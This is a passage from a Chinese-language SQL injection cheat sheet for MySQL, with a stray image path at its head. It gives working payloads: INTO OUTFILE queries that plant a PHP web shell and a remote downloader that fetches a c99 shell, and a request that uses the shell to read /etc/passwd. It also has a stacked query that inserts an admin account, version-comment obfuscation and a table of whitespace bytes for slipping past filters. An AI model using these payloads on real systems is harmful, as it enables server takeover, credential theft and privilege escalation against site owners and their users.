 #### 写文件

如果用户有文件操作权限可以写文件。

```
INTO OUTFILE/DUMPFILE 
```

写一个 php 的 shell：

```
SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php'; 
```

访问如下链接：

http://localhost/shell.php?c=cat%20/etc/passwd

写一个下载者：

```
SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php' 
```

访问如下链接：

http://localhost/get.php?f=shell.php&u=http://localhost/c99.txt

*   INTO OUTFILE 不可以覆盖已存在的文件。
*   INTO OUTFILE 必须是最后一个查询。
*   引号是必须的，因为没有办法可以编码路径名。

#### PDO 堆查询方式操作数据库

PHP 使用 PDO_MYSQL 来连接数据库，便可以使用堆查询，堆查询可以同时执行多个语句。

```
SELECT * FROM Users WHERE ID=1 AND 1=0; INSERT INTO Users(username,password,priv) VALUES ('BobbyTables', 'kl20da$$','admin'); 
```

#### MySql 特有的写法

MySql 中，/*! SQL 语句 */ 这种格式里面的 SQL 语句会当正常的语句一样被解析。

如果在!之后是一串数字(这串数字就是 mysql 数据库的版本号), 如：/*! 12345 SQL 语句 */

当版本号大于等于该数字,SQL 语句则执行,否则就不执行。

```
SELECT 1/*!41320UNION/*!/*!/*!00000SELECT/*!/*!USER/*!(/*!/*!/*!*/); 
```

### 模糊和混淆

#### 允许的字符

| 09 | Horizontal Tab |
| 0A | New Line |
| 0B | Vertical Tab |
| 0C | New Page |
| 0D | Carriage Return |
| A0 | Non-breaking Space |
| 20 | Space |
